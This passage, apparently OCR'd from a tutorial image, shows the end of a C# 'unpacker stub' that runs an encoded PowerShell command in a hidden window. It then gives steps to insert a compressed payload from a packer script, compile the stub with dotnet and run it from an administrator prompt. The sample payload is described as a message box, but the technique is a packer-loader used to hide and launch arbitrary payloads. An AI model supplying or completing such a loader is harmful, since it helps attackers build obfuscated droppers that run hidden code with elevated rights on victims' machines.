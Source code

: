 ```
        psi.Arguments = $"-EncodedCommand {Convert.ToBase64String(Encoding.Unicode.GetBytes(script))}";
        psi.RedirectStandardOutput = true;
        psi.UseShellExecute = false;
        psi.CreateNoWindow = true;

        Process process = new Process();
        process.StartInfo = psi;
        process.Start();
        string result = process.StandardOutput.ReadToEnd();
        process.WaitForExit();
        Console.WriteLine(result);
    }
}
```

Replace "ENCODED_COMPRESSED_PAYLOAD_HERE" with the compressed payload from the packer script.

#### Step 4: Compile the Stub
Using the .NET CLI:

1. **Create a New Console Project:**

```
dotnet new console -n UnpackerStub
cd UnpackerStub
```

2. **Replace Program.cs:** Replace the content of Program.cs with the provided C# code.

3. **Compile the Project:**

```
dotnet build -c Release
```

The compiled executable will be in the `bin/Release/net5.0/` or `bin/Release/net6.0/` directory, depending on your .NET version.

#### Step 5: Execute the Compiled Executable

1. **Open Command Prompt with Administrator Rights:** Search for "cmd" in the start menu, right-click on Command Prompt, and select "Run as administrator".

2. **Navigate to the Directory Containing the Executable:**

```
cd path\to\UnpackerStub\bin\Release\net5.0
```

3. **Run the Executable:**

```
UnpackerStub.exe
```

This should unpack the payload (in this example, a PowerShell script showing a message box) and execute it.
